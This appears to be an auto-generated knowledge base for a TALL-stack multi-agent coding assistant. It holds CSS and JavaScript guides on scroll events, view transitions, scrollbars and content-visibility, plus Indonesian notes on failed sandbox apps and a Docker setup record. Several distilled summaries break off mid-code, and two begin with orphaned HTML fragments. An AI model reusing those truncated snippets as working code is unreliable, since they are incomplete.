- **DO** consider pairing this with `scrollSnapChange` or `scrollSnapChanging` snap interactions if you're building carousels or testimonial galleries slides.
- **DO NOT** bundle layout-dependent dynamic updates inside dynamic visual scroll callbacks.
- **DO** consider that visual viewport zooming and scrolling triggers the `scrollend` event correctly.

## Fallback Strategy

Baseline status for scrollend: Newly available. It's been Baseline since 2025-12-12.
Supported by: Chrome 114 (May 2023), Edge 114 (Jun 2023), Firefox 109 (Jan 2023), and Safari 26.2 (Dec 2025).

For unsupported browsers, fall back to a debounced `scroll` event with `setTimeout` to dispatch a custom `scrollend` event.

```javascript
function initializeDemo() {
  const scroller = document.querySelector('#scroller');
  scroller.addEventListener('scrollend', () => {
    // Safe execution
  });
}

if ('onscrollend' in window) {
  initializeDemo();
} else {
  initializeDemo();
  const scroller = document.querySelector('#scroller');
  scroller.addEventListener('scroll', () => {
    clearTimeout(window.scrollendtimer);
    window.scrollendtimer = setTimeout(() => {
      scroller.dispatchEvent(new CustomEvent('scrollend'));
    }, 100);
  });
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_DIRECTIONAL-NAVIGATION-TRANSITIONS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Single Page Applications (SPAs) provide the appearance of navigation by replacing the content of the page without navigating to a new page. By default, the content is simply replaced, without any transitions. Directional transitions can visually reinforce a spatial relationship between views. 

By sliding new content in from the direction the user is moving you create a mental map of the application structure. For instance, a product site may show a transition to the right for "forward," and to the left for "back", or a slideshow may transition up and down to show next and previous slides.

### Implementation Steps

1. **Detect Navigation Direction**: Determine if the user is moving "forward" or "backward" in the application flow. How you detect the direction depends on your use case.
2. **Trigger Transition with Types**: Pass the direction in a `types` array to `document.startViewTransition()` to categorize the transition.
3. **Define Directional Animations with CSS**: Use the `:active-view-transition-type()` pseudo-class to apply specific animations based on the navigation type.

### Defining Keyframes

Define sliding animations to and from each direction. For best performance, animate position changes using the `transform` property or the individual transform properties, `scale`, `rotate`, and `translate`. `opacity` is generally performant as well, but avoid animating other CSS properties without first verifying that they don't trigger layout or painting.

```css
/* Slide an element out to the left */
@keyframes slide-to-left {
  /* Mandatory: animate `transform` instead of inset properties for better performance. */
  to { transform: translateX(-100%); }
}

/* Slide an element in from the right */
@keyframes slide-from-right {
  from { transform: translateX(100%); }
}

/* Slide an element out to the right */
@keyframes slide-to-right {
  to { transform: translateX(100%); }
}

/* Slide an element in from the left */
@keyframes slide-from-left {
  from { transform: translateX(-100%); }
}
```

### Set up shared animation settings

Use the `::view-transition-group(root)` selector to apply animation settings that are shared across all transitions.

```css
::view-transition-group(root){
  animation: 0.4s ease-in-out both;
}
```

### Applying Directional Animations

Use the `active-view-transition-type` pseudo-class to target the transition views specifically when the "forward" or "backward" type is active.

```css
/* MANDATORY: Apply forward animations when the 'forward' type is active */
html:active-view-transition-type(forward)::view-transition-old(root) {
  animation-name: slide-to-left;
}
html:active-view-transition-type(forward)::view-transition-new(root) {
  animation-name: slide-from-right;
}

/* MANDATORY: Apply backward animations when the 'backward' type is active */
html:active-view-transition-type(backward)::view-transition-old(root) {
  animation-name: slide-to-right;
}
html:active-view-transition-type(backward)::view-transition-new(root) {
  animation-name: slide-from-left;
}
```

### Triggering the Transition

When navigating, pass the appropriate type to the `startViewTransition` method.

```javascript
const transitionType = yourTransitionTypeLogic();
const updateDOM = yourUpdateDOMLogic();

document.startViewTransition({
  update: updateDOM,
  types: [transitionType] // Matches the CSS :active-view-transition-type() selectors
});
```


### Accessibility

Always respect user preferences for reduced motion by disabling or simplifying animations.

```css
@media (prefers-reduced-motion: reduce) {
  ::view-transition-group(root) {
    animation: none !important;
  }
}
```

### Fallback strategies

Baseline status for View transitions: Newly available. It's been Baseline since 2025-10-14.
Supported by: Chrome 111 (Mar 2023), Edge 111 (Mar 2023), Firefox 144 (Oct 2025), and Safari 18 (Sep 2024).
Baseline status for Active view transition: Newly available. It's been Baseline since 2026-01-13.
Supported by: Chrome 125 (May 2024), Edge 125 (May 2024), Firefox 147 (Jan 2026), and Safari 18.2 (Dec 2024).

The View Transitions API is a progressive enhancement. In unsupported browsers, `document.startViewTransition` will be `undefined`. You must wrap your navigation logic in a feature detection check to ensure the DOM update still occurs immediately without animation, as shown in this helper function.

```javascript
/**
 * Navigates to a new view with a directional transition.
 * @param {Function} updateDOM - Callback to update the DOM state.
 * @param {string} direction - Either 'forward' or 'backward'.
 */
function navigate(updateDOM, direction) {
  // Feature detect for browsers that do not support View Transitions
  if (!document.startViewTransition) {
    updateDOM();
    return;
  }

  // Start transition with the specific navigation type
  document.startViewTransition({
    update: updateDOM,
    types: [direction] // Matches the CSS :active-view-transition-type() selectors
  });
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_OTHER.MD

> **VERSION**: v3 | **Last Updated**: 26/05/2026


## 🎓 OTHER WISDOM DISTILLATION [v1109] - 26/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 Adapt scrollbar to high-contrast preferences
> **Origin**: `guides/user-experience/[adapt-scrollbar-to-contrast-preferences.md](../other/NEXUS_ADAPT-SCROLLBAR-TO-CONTRAST-PREFERENCES.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Users who enable high-contrast modes in their operating system or browser expect UI elements (like scrollbars) to be extremely legible, often relying on stark foreground-background separation rather than subtle grays or theme colors.

This guide provides optional instructions on how to use the `@media (prefers-contrast: more)` CSS media feature to enforce high-contrast scrollbar styling.


When customizing scrollbars with `scrollbar-color` or custom variables, you can provide an explicit override for high-contrast modes. This is especially helpful if your primary application theme uses low-contrast scrollbars for aesthetic reasons.

OPTIONAL: Use a `@media (prefers-contrast: more)` block to define dark, distinct colors for the thumb and track.

```css
/* Define default standard colors as variables */
.scroller {
  --scrollbar-thumb: #bbb;
  --scrollbar-track: #f1f1f1;

  scrollbar-color: var(--scrollbar-thumb) var(--scrollbar-track);
  scrollbar-width: thin;
  scrollbar-gutter: stable;
}

/* OPTIONAL: Provide clear, high-contrast overrides */
@media (prefers-contrast: more) {
  .scroller {
    /* Use extremely distinct colors like solid black against white ...

#### 🔗 Traceability:
- [Source Context]([adapt-scrollbar-to-contrast-preferences.md](../other/NEXUS_ADAPT-SCROLLBAR-TO-CONTRAST-PREFERENCES.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Fallback strategies
> **Origin**: `guides/user-experience/[anchor-positioning-tab-underline.md](../other/NEXUS_ANCHOR-POSITIONING-TAB-UNDERLINE.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
In a tab menu, you should provide visual hints to users about what page they are on. One option is by underlining the tab. With anchor positioning, you can create a smooth animation between the positions of the underline. This does not work when changing the active tab loads a new web page.

You can also use this effect to add an animated dot to indicate the active tab in a vertical tab bar.

Create the underline using a `::before` pseudo-element on the `<ul>` that contains the `<li>` elements. **Using a pseudo-element is the preferred approach as it keeps the DOM clean and avoids adding extra elements for purely decorative effects.**

```css
ul::before {
  /* Use a pseudo-element on the container to represent the animated indicator */
  content: '';
}
```

Make the active list item an anchor by adding the `anchor-name` property, which has a value that starts with `--`.

```css
li.active {
  /* Make a unique anchor-name for the active element. */
  anchor-name: --active;
}
```

Tether the underline to the active item anchor with a `position-anchor` that matches the `anchor-name` on the anchor, and making it `position: absolute`.

```css
ul::before {
  /* T...

#### 🔗 Traceability:
- [Source Context]([anchor-positioning-tab-underline.md](../other/NEXUS_ANCHOR-POSITIONING-TAB-UNDERLINE.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation
> **Origin**: `guides/user-experience/[animate-element-entry-exit.md](../other/NEXUS_ANIMATE-ELEMENT-ENTRY-EXIT.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
In the past, CSS transitions could not animate elements when they were first added to the DOM or when their `display` property changed from `none`. The `@starting-style` at-rule and `transition-behavior: allow-discrete` provide a declarative way to create smooth entry and exit animations.


To animate an element when toggling its visibility via an attribute (e.g., `hidden` with `display: none`):

1. **Define the visible state**: Set the final property values (e.g., `opacity: 1`) on the base class.
2. **Define the entry starting state**: Use `@starting-style` to specify the values to transition *from* when the element becomes visible.
3. **Enable discrete transitions**: Include `display` in the `transition` property and use `transition-behavior: allow-discrete`.
4. **Define the exit state**: Set the target values in the `hidden` attribute.

```css
.card {
  display: block;
  opacity: 1;
  translate: 0;
  /* MANDATORY: Use transition-behavior: allow-discrete for display transition */
  transition:
    display 0.4s,
    opacity 0.4s ease-out,
    translate 0.4s ease-out;
  transition-behavior: allow-discrete;
}

/* Entry animation: transition FROM these va...

#### 🔗 Traceability:
- [Source Context]([animate-element-entry-exit.md](../other/NEXUS_ANIMATE-ELEMENT-ENTRY-EXIT.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Coordinating Global Events with Temporal
> **Origin**: `guides/user-experience/[coordinate-global-events.md](../other/NEXUS_COORDINATE-GLOBAL-EVENTS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Scheduling events across different time zones is notoriously difficult with the legacy `Date` object, especially around Daylight Saving Time (DST) transitions when hours can be skipped or repeated.

The `Temporal` API provides `Temporal.ZonedDateTime` to represent a date and time in a specific time zone, handling DST transitions automatically and predictably.


To coordinate global events and handle potential DST conflicts:

1. **MANDATORY:** **Create a ZonedDateTime**: Use `Temporal.ZonedDateTime.from()` to create a time-zone-aware date-time object.
2. **MANDATORY:** **Handle Ambiguity**: Use the `disambiguation` option to control behavior when a time is ambiguous or does not exist (e.g., during clock changes).
3. **MANDATORY:** **Convert Time Zones**: Use `.withTimeZone()` to see the equivalent time in another location.


```javascript
// 1. Define the event time and target time zone
const date = "2025-03-09";
const time = "02:30"; // This time is skipped in New York during Spring Forward
const timeZone = "America/New_York";
const inputStr = `${date}T${time}[${timeZone}]`;

// 2. Detect conflicts using 'reject'
let hasConflict = false;
try {
  // 'reject...

#### 🔗 Traceability:
- [Source Context]([coordinate-global-events.md](../other/NEXUS_COORDINATE-GLOBAL-EVENTS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation Steps
> **Origin**: `guides/user-experience/[cross-document-transitions.md](../other/NEXUS_CROSS-DOCUMENT-TRANSITIONS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Cross-document view transitions allow you to create smooth, app-like transitions between different pages of a Multi-Page Application (MPA). By default, the browser performs a cross-fade, but you can customize this to match your site's aesthetic.


Both the source and destination pages must opt-in to view transitions for the browser to trigger them on navigation.

```css
/* Respect user's preference for reduced motion */
@media (prefers-reduced-motion: no-preference) {
  /* Add to a global stylesheet shared by both pages */
  @view-transition {
    /* Enables transitions for same-origin navigations */
    navigation: auto;
  }
}
```


You can target the old and new states of the transition using pseudo-elements to create effects like slides or reveals.

```css
/* Customizing the outgoing page animation */
::view-transition-old(root) {
  /* Move the old page out to the left */
  animation: 0.4s ease-in both slide-out;
}

/* Customizing the incoming page animation */
::view-transition-new(root) {
  /* Move the new page in from the right */
  animation: 0.4s ease-out both slide-in;
}

@keyframes slide-out {
  to { transform: translateX(-20%); op...

#### 🔗 Traceability:
- [Source Context]([cross-document-transitions.md](../other/NEXUS_CROSS-DOCUMENT-TRANSITIONS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Customize the color or thickness of a scrollbar
> **Origin**: `guides/user-experience/[customize-scrollbar-color-and-thickness.md](../other/NEXUS_CUSTOMIZE-SCROLLBAR-COLOR-AND-THICKNESS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
You can customize the appearance of scrollbars using the standard CSS properties `scrollbar-color` and `scrollbar-width`.

*   **`scrollbar-color`**: Accepts two `<color>` values. The first applies to the thumb (the moving part), and the second to the track (the fixed background).
*   **`scrollbar-width`**: Accepts `auto` (default), `thin` (a thinner variant), or `none` (hides the scrollbar completely while maintaining scrollability).


MANDATORY: Use `scrollbar-color` and `scrollbar-width` on the scrollable container.

When using `scrollbar-color`, use CSS variables to keep thumb and track colors separate, for readability and maintainability (especially when using fallbacks).

```css
.scroller {
  --scrollbar-thumb: var(--color-neutral-70);
  --scrollbar-track: var(--color-neutral-90);

  scrollbar-color: var(--scrollbar-thumb) var(--scrollbar-track);
}
```


Baseline status for scrollbar-width: Newly available. It's been Baseline since 2024-12-11.
Supported by: Chrome 121 (Jan 2024), Edge 121 (Jan 2024), Firefox 64 (Dec 2018), and Safari 18.2 (Dec 2024).


Baseline status for scrollbar-color: Newly available. It's been Baseline since 2025-12-12.
Sup...

#### 🔗 Traceability:
- [Source Context]([customize-scrollbar-color-and-thickness.md](../other/NEXUS_CUSTOMIZE-SCROLLBAR-COLOR-AND-THICKNESS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Creating Persistent App Tours
> **Origin**: `guides/user-experience/[persistent-app-tours.md](../other/NEXUS_PERSISTENT-APP-TOURS.MD)` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action="hide">Got it</button>
</div>
```

#### 🔗 Traceability:
- [Source Context]([persistent-app-tours.md](../other/NEXUS_PERSISTENT-APP-TOURS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Creating Toast Notifications
> **Origin**: `guides/user-experience/[persistent-toast-notifications.md](../other/NEXUS_PERSISTENT-TOAST-NOTIFICATIONS.MD)` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action="hide".
* **DO** use JavaScript for auto-dismissal timers (e.g., calling hidePopover() after 3000ms).
* **DO** utilize transition-behavior: allow-discrete to animate the entry and exit from the Top Layer.

#### 🔗 Traceability:
- [Source Context]([persistent-toast-notifications.md](../other/NEXUS_PERSISTENT-TOAST-NOTIFICATIONS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `guides/user-experience/[scroll-position-aware-elements.md](../other/NEXUS_SCROLL-POSITION-AWARE-ELEMENTS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Improve the user experience of floating buttons, like a "Back to Top" link, by showing them only when they are useful. This guide shows how to build these elements using CSS `container-scroll-state-queries`, which allows styling elements based on the scroll position of their container without relying on JavaScript scroll listeners or observers.


The scroll container must be declared as a scroll-state query container.

```css
.scroller {
  overflow-y: auto;
  /* Establish this element as a scroll-state query container */
  container-type: scroll-state;
}
```


Place the element inside the container and style it. By default, it should be hidden.

```css
.back-to-top {
  position: sticky;
  bottom: 20px;
  visibility: hidden;
  opacity: 0;
  translate: 0 20px;
  transition:
    visibility 0.3s,
    opacity 0.3s ease,
    translate 0.3s ease;
}
```

> **Important:** Sticky or floating elements hover above the scrollable content. Ensure that the main content has sufficient bottom padding or margin so that the last few elements are not permanently covered by the button when the user scrolls completely to the bottom.


Use the `@container` rule ...

#### 🔗 Traceability:
- [Source Context]([scroll-position-aware-elements.md](../other/NEXUS_SCROLL-POSITION-AWARE-ELEMENTS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `guides/user-experience/[scrollability-affordance-hints.md](../other/NEXUS_SCROLLABILITY-AFFORDANCE-HINTS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
Visual hints, like shadows or gradients, help users understand that they can scroll to see more content. This guide shows how to build these hints using CSS `container-scroll-state-queries`, which allows styling elements based on the scrollable state of their container without relying on JavaScript scroll listeners or observers.


The scroll container must be declared as a scroll-state query container.

```css
.scroller {
  overflow-y: auto;
  /* Establish this element as a scroll-state query container */
  container-type: scroll-state;
  position: relative;
}
```


Place the indicator elements (like shadows, gradients, or arrows) inside the container and style them. By default, they should not be visible. When they are shown, they should not be interactive, by setting `pointer-events: none`.

```css
.indicator-top, .indicator-bottom {
  position: sticky;
  left: 0;
  right: 0;
  height: 20px;
  opacity: 0;
  transition: opacity 0.2s;
  pointer-events: none; /* Let clicks pass through */
}

.indicator-top {
  top: 0;
  background: linear-gradient(to bottom, rgba(0,0,0,0.2), transparent); /* Example: Shadow */
}

.indicator-bottom {
  bottom...

#### 🔗 Traceability:
- [Source Context]([scrollability-affordance-hints.md](../other/NEXUS_SCROLLABILITY-AFFORDANCE-HINTS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `guides/user-experience/[soft-edge-content-fade.md](../other/NEXUS_SOFT-EDGE-CONTENT-FADE.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
To apply a transparency gradient to the edges of a container (e.g., to indicate more content is available to scroll or to fade out text), use CSS Masking with a linear gradient. This approach is superior to using a semi-transparent overlay because it actually fades the content itself, allowing the background to show through naturally without interfering with text selection or pointer events.


To implement a soft edge fade:


This is useful for indicating that there is more content below in a scrollable area.

```css
.container {
  /* Enable scrolling */
  overflow-y: auto;
  
  /* MANDATORY: Use vendor prefix for wider support in older browsers */
  -webkit-mask-image: linear-gradient(to bottom, black 80%, transparent 100%);
  
  /* Standard property for modern browsers */
  mask-image: linear-gradient(to bottom, black 80%, transparent 100%);
}
```


You can use a single gradient with multiple color stops to fade both edges.

```css
.dual-fade-container {
  /* Content is visible between 10% and 90% of the height */
  -webkit-mask-image: linear-gradient(to bottom, transparent 0%, black 10%, black 90%, transparent 100%);
  mask-image: linear-gradient(to b...

#### 🔗 Traceability:
- [Source Context]([soft-edge-content-fade.md](../other/NEXUS_SOFT-EDGE-CONTENT-FADE.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation steps
> **Origin**: `guides/user-experience/[visually-stable-font-fallbacks.md](../other/NEXUS_VISUALLY-STABLE-FONT-FALLBACKS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
When web fonts load, they often replace a fallback font that has different dimensions, even if both are set to the same `font-size`. This causes "layout shift" (Cumulative Layout Shift) and can make text illegible if the fallback's lowercase letters (x-height) are significantly different than the preferred font.

The `font-size-adjust` property solves this by normalizing the size of the font based on a specific metric (usually the x-height), ensuring that text occupies the same visual space regardless of which font is currently active.


To normalize fallbacks, you need the "aspect value" (the ratio of lowercase letters to the font size) of your primary font.

*   **Automatic discovery (Recommended):** Use the `from-font` keyword to let the browser extract the ratio from your primary web font.
*   **Manual calculation:** If you know the specific value (e.g., 0.545 for Verdana), you can provide it directly for more precise control.


Apply the property to the element or a parent container. This ensures that if the primary font fails to load or is in the process of loading, the fallback font is scaled to match the visual size of the primary font.

```css
.text-conte...

#### 🔗 Traceability:
- [Source Context]([visually-stable-font-fallbacks.md](../other/NEXUS_VISUALLY-STABLE-FONT-FALLBACKS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation Steps
> **Origin**: `guides/user-experience/[visually-stable-mixed-fonts.md](../other/NEXUS_VISUALLY-STABLE-MIXED-FONTS.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
When mixing different font families, for instance when inserting inline code snippets, or switching out font families for different themes, differences in "x-height" (the height of lowercase letters) can make one font appear much smaller or larger than the other font. This can lead to poor legibility and layout shifts.

The `font-size-adjust` property allows you to normalize the visual size of text by adjusting the font size based on a specific font metric (usually the x-height).


1.  **MANDATORY**: Apply `font-size-adjust` to elements where font consistency is critical, such as containers using web fonts or blocks with mixed font families.
2.  **MANDATORY**: Use the `from-font` keyword on elements to automatically match font size in nested elements to the proportions of the primary font.
3.  **MANDATORY**: Use a specific numeric aspect-ratio override value for `font-size-adjust` (e.g., `font-size-adjust: 0.5`) to normalize proportions independently when the font proportions to base on are from different themes.


Using `from-font` is the most robust approach. It extracts the aspect ratio of the x-height from the first available font and applies it to fonts in child ...

#### 🔗 Traceability:
- [Source Context]([visually-stable-mixed-fonts.md](../other/NEXUS_VISUALLY-STABLE-MIXED-FONTS.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `guides/user-experience/[visually-texture-content.md](../other/NEXUS_VISUALLY-TEXTURE-CONTENT.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
To apply realistic weathering or texture patterns (like grunge, noise, or paper texture) to an element, use CSS Masking (`mask-image`) with a repeating texture image. This allows you to make the content itself appear textured by making parts of it semi-transparent, rather than just overlaying a texture on top. This creates a more realistic physical material appearance.


To apply a texture pattern:


This is the most common method for realistic textures.

```css
.weathered-element {
  /* MANDATORY: Use vendor prefix for wider support in older browsers */
  -webkit-mask-image: url('grunge-pattern.png');
  -webkit-mask-repeat: repeat; /* Repeat the pattern to fill the area */
  -webkit-mask-size: 300px; /* Control the scale of the texture */

  /* Standard property for modern browsers */
  mask-image: url('grunge-pattern.png');
  mask-repeat: repeat;
  mask-size: 300px;
}
```


You can generate patterns using CSS gradients. This is self-contained and does not require external image files.

```css
.patterned-element {
  --checkerboard-gradient: 
    linear-gradient(45deg, #000 25%, transparent 25%), 
    linear-gradient(-45deg, #000 25%, transparent 25%), ...

#### 🔗 Traceability:
- [Source Context]([visually-texture-content.md](../other/NEXUS_VISUALLY-TEXTURE-CONTENT.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_DISTILLATION_UI-UX.MD

## 🎓 UI-UX WISDOM DISTILLATION [v5154] - 25/05/2026
> **Protocol**: Autonomous Intelligence Extraction | **Focus**: Actionable Tech Insights

### 📄 Sandbox UI/UX Distilled Findings
> **Origin**: `ui-ux/NEXUS_SANDBOX_UI_FINDINGS.md` | **Distilled At**: 25/05/2026

#### 💡 Content Summary:
> **VERSION**: v3 | **Last Updated**: 25/05/2026


**Date**: 2026-05-23
**Context**: NEXUS Sandbox Section 1 generated 11 TALL Stack web applications, all of which failed the UX/UI quality check. The resulting applications were merely default Laravel boilerplate pages with haphazardly injected Livewire components.


1. **Broken Boilerplate**: Agen tidak menghapus halaman dokumentasi bawaan Laravel (`welcome.blade.php` dengan link ke Laracasts/Laravel News). Hal ini membuat aplikasi terlihat seperti *scaffold* awal, bukan produk akhir (MVP).
2. **Missing Application Shell**: Tidak ada satupun aplikasi yang menggunakan struktur `layouts/app.blade.php`. Akibatnya, aplikasi tidak memiliki *navbar*, *footer*, navigasi, atau kerangka UI (Shell) yang layak.
3. **Mangled HTML Injection**: Karena struktur HTML yang kacau, injeksi tag `<livewire:...>` malah merusak *tag* `<body>` dan `<div>`.


Untuk generasi kode selanjutnya (terutama agen `ux-engineer` dan `pipeline-architect`), **patuhi aturan ketat berikut**:

1. **Wajib Hapus Boilerplate**: Setiap kali membuat aplikasi baru, halaman bawaan `welcome.blade.php` **HARUS DIHAPUS TOTAL** isinya dan diganti dengan desain halaman depan/Dashbo...

#### 🔗 Traceability:
- [Source Context](NEXUS_SANDBOX_UI_FINDINGS.md)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_DOCKER_TALL_EVOLUTION.MD

# 📜 Nexus Evolution Record: Docker & TALL Stack Strategy
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> **Date**: 08/05/2026
> **Session Status**: Evolutionary Sync
> **Context**: Optimization of Nexus Engine for multi-project TALL Stack orchestration.

---

## 0. 🎯 Visi & Rencana Awal (Original Vision)
Nexus AI dikembangkan dengan tujuan utama yang jelas dari USER:
- **Fokus Utama**: Membangun sistem *multi-agent* yang terspesialisasi dalam pengembangan **TALL Stack** (Tailwind CSS, Alpine.js, Laravel, Livewire).
- **Skala Pengelolaan**: Mengorkestrasi dan membantu pengelolaan **3-5 proyek aktif** berbasis TALL stack secara efisien.
- **Filosofi**: Nexus bertindak sebagai **"Asisten Otonom"** yang mendukung USER, bukan menggantikannya, dengan memastikan kualitas kode dan arsitektur tetap terjaga di seluruh proyek.

---

## 1. 🐳 Docker Architecture Evolution
Sistem Nexus AI kini telah dipindahkan ke dalam Docker untuk meningkatkan otonomi dan portabilitas.

- **Status Docker**: Aktif (Docker Desktop WSL2).
- **Konfigurasi**:
    - **Dockerfile**: Menggunakan `node:18-slim` dengan dependensi sistem `git` dan `curl` untuk mendukung `WorktreeManager`.
    - **Docker Compose**: Menggunakan model "Central Hub" di mana proyek eksternal di-mount ke `/app/workspace`.
- **Manfaat**: Isolasi eksekusi (Sandboxing) dan konsistensi audit lintas proyek.

## 2. 🎯 TALL Stack Specialization
Strategi pengembangan difokuskan pada **TALL Stack (Tailwind CSS, Alpine.js, Laravel, Livewire)** untuk mengelola 3-5 proyek aktif milik USER.

- **Fokus Audit**: Integrasi antara Blade logic, Livewire hydration, dan Alpine.js reactive state.
- **Role Nexus**: Sebagai asisten/orchestrator yang menjaga standar kualitas dan konsistensi di seluruh ekosistem TALL Stack.

## 3. 🤖 Agent Hierarchy (The Team Structure)
Telah ditetapkan hirarki 4 level dalam ekosistem Nexus AI:

| Level | Role | Komponen | Deskripsi |
| :--- | :--- | :--- | :--- |
| **0** | **The Creator** | User (Human) | Pengambil keputusan tertinggi & Approval. |
| **1** | **Orchestrator** | Nexus Engine | Project Manager yang mengatur alur Audit -> Plan. |
| **2** | **Specialists** | Agent MDs | Konsultan Ahli (e.g. TALL Specialist, Security). |
| **3** | **Machines** | JS Tools | Eksekutor teknis (e.g. LaravelArchitect, BugHunter). |

## 4. 🚀 Next Steps (Roadmap)
- [ ] Implementasi **TALL Stack Specialist Agent** (Level 2).
- [ ] Penambahan library prompt khusus Livewire & Alpine.js ke dalam Memory HUB.
- [ ] Pengujian audit lintas-proyek menggunakan Docker Volume mounting.

---
*Generated by Nexus Assistant | Approved for Institutional Knowledge*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, vcs]

### 📘 KNOWLEDGE: NEXUS_EFFICIENT-BACKGROUND-PROCESSING.MD

# Efficient Background Processing
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Pause heavy background tasks when a component is not being rendered by the browser to conserve system resources and battery life.

## Overview

The `content-visibility: auto` property allows the browser to skip rendering calculations for elements that are far outside the viewport. When the browser decides to skip or resume rendering for an element, it fires the `contentvisibilityautostatechange` event on that element.

By listening to this event, you can pause expensive operations like `<canvas>` animations, WebGL rendering, or high-frequency WebSocket data polling when they are not needed, and resume them just-in-time when the browser prepares to display the content.

### `contentvisibilityautostatechange` vs. `IntersectionObserver`

It is important to understand when to use which API:

*   **Use `IntersectionObserver` for application logic** tied to the exact visual visibility of an element in the viewport (e.g., lazy-loading data, infinite scroll triggers).
*   **Use `contentvisibilityautostatechange` for rendering-heavy work** (like complex canvas updates or heavy DOM mutations). This event ties directly to the browser's internal rendering lifecycle. The browser often starts rendering an element before it actually appears on screen (the pre-render margin). This event tells you when that happens, ensuring your content is ready to be seen.

## Implementation

### 1. Apply CSS Content Visibility

Set `content-visibility: auto` on the heavy container and provide a placeholder size to prevent scrollbar jumping.

```css
.heavy-component {
  /* Defer rendering work when off-screen */
  content-visibility: auto;
  
  /* Mandatory: Provide a placeholder size to prevent layouts shifts.
    - 'auto' is optional and enables the browser to remember the actual size
      once rendered. It must be paired with a <length> value to be used for
      the first render.
    - 'none' tells the browser not to apply any intrinsic width to this element.
      It can be used for either the height or the width value.
    - '500px' is the estimated height of this element. This can be any valid
      CSS <length> value. Replace it with the expected height of your
      component.
   */
  contain-intrinsic-size: auto none auto 500px;
}
```

### 2. Listen for State Changes

Add an event listener for `contentvisibilityautostatechange` to pause or resume background tasks.

> **Important:** The `contentvisibilityautostatechange` event does not bubble in some browser implementations. To handle this event reliably, you must either:
> - Attach the event listener directly to the element that has `content-visibility: auto` applied.
> - Use a capturing event listener (`{ capture: true }`) if you are delegating events to a parent container.

```javascript
const component = document.querySelector('.heavy-component');

// Option 1: Direct listener (recommended)
component.addEventListener('contentvisibilityautostatechange', (event) => {
  if (event.skipped) {
    // The browser skipped rendering this content.
    // DO NOT perform heavy mutations or animation loops here.
    stopSimulation();
    pauseWebSocketPolling();
  } else {
    // The browser is about to render the content.
    // Resume your work so it is ready when visible.
    startSimulation();
    resumeWebSocketPolling();
  }
});

// Option 2: Capturing listener for event delegation
document.addEventListener('contentvisibilityautostatechange', (event) => {
  if (event.target.matches('.heavy-component')) {
    if (event.skipped) {
      stopSimulation();
    } else {
      startSimulation();
    }
  }
}, { capture: true });
```

### Fallback strategies

Baseline status for content-visibility: Newly available. It's been Baseline since 2025-09-15.
Supported by: Chrome 108 (Nov 2022), Edge 108 (Dec 2022), Firefox 130 (Sep 2024), and Safari 26 (Sep 2025).

The `content-visibility` property and the associated `contentvisibilityautostatechange` event are progressive enhancements. In browsers that do not support them:
*   The CSS property is ignored, and the content is rendered normally.
*   The event never fires, so background tasks will continue to run as they normally would without optimization.

If you must support pausing tasks on older browsers, you can fallback to using `IntersectionObserver` as a rough approximation. This helps save battery and CPU on older devices too.

```javascript
// Fallback using IntersectionObserver for older browsers
const target = document.getElementById('target-container');

// Check if content-visibility is supported
const isSupported = 'contentVisibility' in document.documentElement.style;

if (!isSupported) {
  const observer = new IntersectionObserver((entries) => {
    entries.forEach(entry => {
      if (entry.isIntersecting) {
        // The element is close to the screen. Start work!
        startSimulation();
      } else {
        // The element is far away. Pause work!
        stopSimulation();
      }
    });
  }, {
    // Use rootMargin to start rendering before it hits the screen
    rootMargin: '200px'
  });

  observer.observe(target);
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_EXPORT-HTML-MEDIA-FROM-CANVAS.MD

# Export HTML content from canvas
> **VERSION**: v1 | **Last Updated**: 26/05/2026


